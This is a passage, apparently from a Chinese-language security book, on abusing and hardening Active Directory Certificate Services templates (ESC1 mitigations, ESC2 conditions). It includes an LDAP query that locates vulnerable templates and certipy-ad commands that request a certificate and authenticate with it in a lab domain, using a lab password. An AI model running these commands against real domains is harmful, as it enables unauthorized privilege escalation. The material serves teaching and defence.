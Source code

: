为防止特权提升，需要对模板进行加固。最佳做法是禁用`Supply in Request`设置，并强制执行 CA 证书经理的批准。接下来，可以收紧用户注册权限，并审查证书中的 EKU。最后，在域控制器上，可以在`HKLM\SYSTEM\CurrentControlSet\Services\Kdc`注册表项中强制执行严格的用户映射，并将 DWORD `UseSubjectAltName`值设置为`0`。

使用 Windows 事件日志无法直接可靠地检测 ESC1，因此更好的做法是考虑采取预防措施。

### ESC2 – 配置错误的证书模板

这种技术与 ESC1 类似，但有些微小的偏差。`Any Purpose` EKU 允许攻击者以用户身份本身请求认证证书，而不是代表其他用户。漏洞存在的条件如下：

+   标准用户有企业 CA 授予的注册权限

+   管理员批准已禁用（`mspki-enrollment-flag` 为 **0x00000000**）

+   无需授权签名（`msPKI-RA-Signature` 为 **0x00000000**）

+   证书模板定义了`Any Purpose` EKU 或没有 EKU

查找易受攻击模板的 LDAP 查询如下：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

查询结果如下：

![图 8.19 – 查找 ESC2 易受攻击模板的 LDAP 查询](img/B18964_08_19.jpg)

图 8.19 – 查找 ESC2 易受攻击模板的 LDAP 查询

以下命令将允许你为`khal.drogo`请求证书并用于身份验证：

```
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC2
certipy-ad auth -pfx khal.drogo.pfx -dc-ip 192.168.56.12
```

结果如下截图所示：
